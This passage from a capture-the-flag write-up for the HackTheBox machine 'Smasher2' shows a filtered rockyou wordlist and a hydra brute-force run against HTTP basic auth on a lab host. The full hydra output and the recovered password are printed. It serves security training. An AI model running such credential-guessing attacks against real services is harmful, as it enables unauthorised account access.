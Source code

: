 Unfortunately not of them worked. By that time, a lot of people in the Mattermost HTB chat were stuck in the same place and the box creator dropped a hint that we had to use **the full rockyou.txt** wordlist and start at the letter c. He also mentionned that the username was `admin`. I don't know how this box got past the HTB testers since heavy bruteforcing is normally not allowed. To put this into perspective, even when knowing the username and the start letter, we're looking at potentially ~640k passwords:

```
# egrep "^c.*" /usr/share/wordlists/rockyou.txt > wordlist.txt
root@ragingunicorn:~/htb/smasher2# wc -l wordlist.txt 
639676 wordlist.txt
```

In my opinion, this is way over the top since the full rockyou list has 14M+ entries and it's not possible to brute force an HTTP basic auth in a reasonable amount of time when we don't even know the username. Anyways, it still took me ~40 minutes to find the password when running 32 threads of hydra:

```
# hydra -l admin -P wordlist.txt 10.10.10.135 -t 32 http-get /backup
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-06-05 00:24:55
[DATA] max 32 tasks per 1 server, overall 32 tasks, 639677 login tries (l:1/p:639677), ~19990 tries per task
[DATA] attacking http-get://10.10.10.135:80/backup
[STATUS] 7725.00 tries/min, 7725 tries in 00:01h, 631952 to do in 01:22h, 32 active
[STATUS] 7830.67 tries/min, 23492 tries in 00:03h, 616185 to do in 01:19h, 32 active
[STATUS] 7795.57 tries/min, 54569 tries in 00:07h, 585108 to do in 01:16h, 32 active
[STATUS] 7838.53 tries/min, 117578 tries in 00:15h, 522099 to do in 01:07h, 32 active
[STATUS] 7856.03 tries/min, 243537 tries in 00:31h, 396140 to do in 00:51h, 32 active
[80][http-get] host: 10.10.10.135   login: admin   password: clarabibi
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-06-05 01:05:21
```

Password: `clarabibi`

I checked if that password was present in any other wordlist from seclists, including the reduced rockyou list but I didn't find it there. It's only in the full rockyou list:

```
# grep -ri clarabibi /usr/share/seclists/
root@ragingunicorn:~# grep -ri clarabibi /usr/share/wordlists/rockyou.txt 
clarabibi
```

Once I had the password, I checked out the `/backup` and found the source code for the authentication page on `wonderfulsessionmanager.smasher2.htb`

![](/assets/images/htb-writeup-smasher2/backup2.png)
